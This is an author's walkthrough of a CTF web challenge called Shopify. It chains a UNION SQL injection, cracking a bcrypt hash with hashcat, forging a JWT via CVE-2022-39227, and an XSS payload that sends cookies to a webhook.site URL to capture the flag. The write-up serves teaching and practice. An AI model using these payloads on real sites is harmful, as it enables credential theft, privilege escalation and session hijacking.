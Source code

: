 # shopify

@codiac


I have authored 2 tasks during CyberSpark CTF:
- Shopify (Web)
- PyREDICT (Misc)
## {{ Shopify }}
In this web challenge I have tried to combine several vulnerabilities together, and I have successfully combined 3 vulnerabilities:
	- SQL injection
	- JWT token manipulation
	- XSS
As the task name suggests, this is a shop website.
### SQLi
the SQL injection vulnerability is in the search bar of the products, looking at the source code we can identify the vulnerability, looking at the `/shop` route we can see that when the app receives a `POST` request it calls the `db` class method `select_products` so checking the function at `models/db.py`  
```python
def select_products(self, title):
	self.cur.execute(f"SELECT id, title, price, image FROM products WHERE title LIKE '{title}%'")
	return self.cur.fetchall()
```
We can see that the query isn’t handled correctly it should be using prepared statements rather than format string to insert the user input inside the user, prepared statement should instruct the database to treat the input as normal input and not interpret the special characters like `'` or whatever SQL syntax.
Looking at the function above the `select_products` we can see our goal out of this SQLi which is the username and it’s password:
```python
def insert_user(self, username, password):

        password = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt())

        self.cur.execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, password))

        self.con.commit()
```
The function is called right after creating the app
```python
app = Flask(__name__)
db = ProductDB()
db.create_tables()
db.insert_products()
db.insert_user(USR, PASS)
```
So we have identified the vulnerable part of the application to get initial access, then will look for further escalation.
Looking at the select statement we can see that it pulls 4 parameters from the table products, so we know that we need 4 params when using `UNION` select statement to pull the username and the password.
One more this that the app only renders the `title, price, and image` so we will work on those parameters.
Trying the casual NULL payload will cause the app to crush, running the app locally and you’ll see the error output which is you can’t concatenate None type to str type, this is because the data is being concatenated with string types.
So we only can get data of a type str, with this payload we will ensure that the number of parameters is 4:
```SQL
' UNION SELECT 'a','b','c','d' FROM users-- -
```
We can see that the visible parameters is b and d so we will get the data through those params, we craft the following query to get the username and password hash:
```SQL
' UNION SELECT 'a',username,'c',password FROM users-- -
```
and the app will crash and looking at the error locally you can see the same error as previously but now the data type that can’t be concatenated with str type is bytes, so the data is stored as bytes format so we need to convert it to str type, we can use the method `cast` to do so as follows:
```SQL
' UNION SELECT 'a',username,'c',cast(password as text) FROM users-- -
```
and now we have the username and the password hash:
```
username : shopman
password : $2b$12$9PGdbJ4uw4oHHrX5mAah2u8lduoXZu9rF3p6RQjox.bxQAyFf7vMa
```
We can use rockyou as the wordlist and we can crack the password
```bash
┌──(kali㉿kali)-[~/test]
└─$ hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt    
hashcat (v6.2.6) starting
...
* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2b$12$9PGdbJ4uw4oHHrX5mAah2u8lduoXZu9rF3p6RQjox.bxQAyFf7vMa:bishop
...
```
now we have username and password
```
username: shopman
password: bishop
```
We can login with the creds we have, now let’s see what else we can abuse to get higher privileges.
## {{ JWT manipulation }}
Looking at the requirements file we can see that all the libraries has a specific version, we can lookup all the libraries, and `python_jwt` is vulnerable to JWT token manipulation, here’s the link for the vulnerability [link](https://github.com/advisories/GHSA-5p8v-58qm-c7fp) 
We can use the following POC to leverage this vulnerability [link](https://github.com/user0x1337/CVE-2022-39227) 
running the script we can see the help menu
```bash
(codi@Codiac):locktalk/CVE-2022-39227$ python cve_2022_39227.py
usage: CVE-2022-39227-PoC [-h] -j TOKEN -i CLAIM
CVE-2022-39227-PoC: error: the following arguments are required: -j/--jwt_token, -i/--injected_claim
```
so we need to provide the token and the claims, so we need to get our token also we can see in the source code that the app is vulnerable to XSS but we can only leverage that vulnerability if we can verify added products and in order to have permission to verify added product we need to have the administrator role so we need to change our role to administrator and this vulnerability allows this action.
```bash
(codi@Codiac):locktalk/CVE-2022-39227$ python cve_2022_39227.py  -j eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTU3MjI4OTgsImlhdCI6MTcxNTcxOTI5OCwianRpIjoiSmdOU09OVjg2WlVlWFVnS3plT1lZUSIsIm5iZiI6MTcxNTcxOTI5OCwicm9sZSI6Im1hbmFnZXIiLCJ1c2VyIjoic2hvcG1hbiJ9.a93fZJ0rgh1MvxvmvI5qf6XzZ8auIG1ytkz7Ogsf2BF-GMmPyagNcdYp-vRd_sVeJiqx1d4641ob2HsLSh9OW75MB-xu6Nd3UNf5tEGzN368WDNLopV2nd9pPZID4fZ0WwFWbJU1Acv82GzjSOJbGfpOpNrfyKywdO6oL5_5XGjxBxnHQAgt7ILnWnp7Gsf_9hacznKXoRDwaOWGlegE_TgO9K6xoWWzHaDscjOukzfEtcuoV5p6JywbB0-XKT4JH5B2xhiscWLThABrXcRjJcGwP764PsYOjTMYalk51f9QQzWOjgq_s3OZghIWgZNHYa2C_nxU_yIKEy5lR-0T3igTlO7N6ht1aa9MvIDEecWkqNJchvDy_yE2UdDQgkcMT7Qshrj9M_EECKMABad943pMMvEztXRJDq41o2Q5jZzPXtv8TJsug4LnIJpBBFOwc4Uz-OALXjFEN7I4C-4j0V2wkSwNgNwuORmtnWbUMKawEcNmkyv0SRBl-9iRtKFxMtye2XPogUsmKKyL1EBJE1uyjqcggM5mWyG8fnOWobjAA_9xGhQAZ3grXXnMvP-JCa45IMtWJBppYtDZgiSlJFy6BmDPnd2z7IDCOum6PPXmYx-ID-Qa7L77cDHRdVcJmbubRXdLnxOXLcCmh-2DZyGGKSjvXTkeXgoQuCAftvY -i role=administrator
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTU3MjI4OTgsImlhdCI6MTcxNTcxOTI5OCwianRpIjoiSmdOU09OVjg2WlVlWFVnS3plT1lZUSIsIm5iZiI6MTcxNTcxOTI5OCwicm9sZSI6Im1hbmFnZXIiLCJ1c2VyIjoic2hvcG1hbiJ9
[+] Decoded payload: {'exp': 1715722898, 'iat': 1715719298, 'jti': 'JgNSONV86ZUeXUgKzeOYYQ', 'nbf': 1715719298, 'role': 'manager', 'user': 'shopman'}
[+] Inject new "fake" payload: {'exp': 1715722898, 'iat': 1715719298, 'jti': 'JgNSONV86ZUeXUgKzeOYYQ', 'nbf': 1715719298, 'role': 'administrator', 'user': 'shopman'}
[+] Fake payload encoded: eyJleHAiOjE3MTU3MjI4OTgsImlhdCI6MTcxNTcxOTI5OCwianRpIjoiSmdOU09OVjg2WlVlWFVnS3plT1lZUSIsIm5iZiI6MTcxNTcxOTI5OCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoic2hvcG1hbiJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTU3MjI4OTgsImlhdCI6MTcxNTcxOTI5OCwianRpIjoiSmdOU09OVjg2WlVlWFVnS3plT1lZUSIsIm5iZiI6MTcxNTcxOTI5OCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoic2hvcG1hbiJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTU3MjI4OTgsImlhdCI6MTcxNTcxOTI5OCwianRpIjoiSmdOU09OVjg2WlVlWFVnS3plT1lZUSIsIm5iZiI6MTcxNTcxOTI5OCwicm9sZSI6Im1hbmFnZXIiLCJ1c2VyIjoic2hvcG1hbiJ9","signature":"a93fZJ0rgh1MvxvmvI5qf6XzZ8auIG1ytkz7Ogsf2BF-GMmPyagNcdYp-vRd_sVeJiqx1d4641ob2HsLSh9OW75MB-xu6Nd3UNf5tEGzN368WDNLopV2nd9pPZID4fZ0WwFWbJU1Acv82GzjSOJbGfpOpNrfyKywdO6oL5_5XGjxBxnHQAgt7ILnWnp7Gsf_9hacznKXoRDwaOWGlegE_TgO9K6xoWWzHaDscjOukzfEtcuoV5p6JywbB0-XKT4JH5B2xhiscWLThABrXcRjJcGwP764PsYOjTMYalk51f9QQzWOjgq_s3OZghIWgZNHYa2C_nxU_yIKEy5lR-0T3igTlO7N6ht1aa9MvIDEecWkqNJchvDy_yE2UdDQgkcMT7Qshrj9M_EECKMABad943pMMvEztXRJDq41o2Q5jZzPXtv8TJsug4LnIJpBBFOwc4Uz-OALXjFEN7I4C-4j0V2wkSwNgNwuORmtnWbUMKawEcNmkyv0SRBl-9iRtKFxMtye2XPogUsmKKyL1EBJE1uyjqcggM5mWyG8fnOWobjAA_9xGhQAZ3grXXnMvP-JCa45IMtWJBppYtDZgiSlJFy6BmDPnd2z7IDCOum6PPXmYx-ID-Qa7L77cDHRdVcJmbubRXdLnxOXLcCmh-2DZyGGKSjvXTkeXgoQuCAftvY"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTU3MjI4OTgsImlhdCI6MTcxNTcxOTI5OCwianRpIjoiSmdOU09OVjg2WlVlWFVnS3plT1lZUSIsIm5iZiI6MTcxNTcxOTI5OCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoic2hvcG1hbiJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTU3MjI4OTgsImlhdCI6MTcxNTcxOTI5OCwianRpIjoiSmdOU09OVjg2WlVlWFVnS3plT1lZUSIsIm5iZiI6MTcxNTcxOTI5OCwicm9sZSI6Im1hbmFnZXIiLCJ1c2VyIjoic2hvcG1hbiJ9","signature":"a93fZJ0rgh1MvxvmvI5qf6XzZ8auIG1ytkz7Ogsf2BF-GMmPyagNcdYp-vRd_sVeJiqx1d4641ob2HsLSh9OW75MB-xu6Nd3UNf5tEGzN368WDNLopV2nd9pPZID4fZ0WwFWbJU1Acv82GzjSOJbGfpOpNrfyKywdO6oL5_5XGjxBxnHQAgt7ILnWnp7Gsf_9hacznKXoRDwaOWGlegE_TgO9K6xoWWzHaDscjOukzfEtcuoV5p6JywbB0-XKT4JH5B2xhiscWLThABrXcRjJcGwP764PsYOjTMYalk51f9QQzWOjgq_s3OZghIWgZNHYa2C_nxU_yIKEy5lR-0T3igTlO7N6ht1aa9MvIDEecWkqNJchvDy_yE2UdDQgkcMT7Qshrj9M_EECKMABad943pMMvEztXRJDq41o2Q5jZzPXtv8TJsug4LnIJpBBFOwc4Uz-OALXjFEN7I4C-4j0V2wkSwNgNwuORmtnWbUMKawEcNmkyv0SRBl-9iRtKFxMtye2XPogUsmKKyL1EBJE1uyjqcggM5mWyG8fnOWobjAA_9xGhQAZ3grXXnMvP-JCa45IMtWJBppYtDZgiSlJFy6BmDPnd2z7IDCOum6PPXmYx-ID-Qa7L77cDHRdVcJmbubRXdLnxOXLcCmh-2DZyGGKSjvXTkeXgoQuCAftvY"}
```
We change our token cookie with the value inside the auth object and now we can visit the verify page
## {{ XSS }}
Now we need to get the input that is vulnerable to XSS and looking at the source code it is the product title so we can craft the following payload and we add our webhook URL to get the flag that is in the cookie of the web crawler that will visit the page after we submit a verify request
```js
<script>document.location='https://webhook.site/93844873-d115-4f95-8494-5904a5c8876f?c='+document.cookie</script>
```
submitting the product and taking the id then we can submit a verify request using the ID of the product we just created and we will have the flag
```
https://webhook.site/93844873-d115-4f95-8494-5904a5c8876f?c=flag=Spark{SK1LL3D_SH0P_H3CK3R_GG}
```

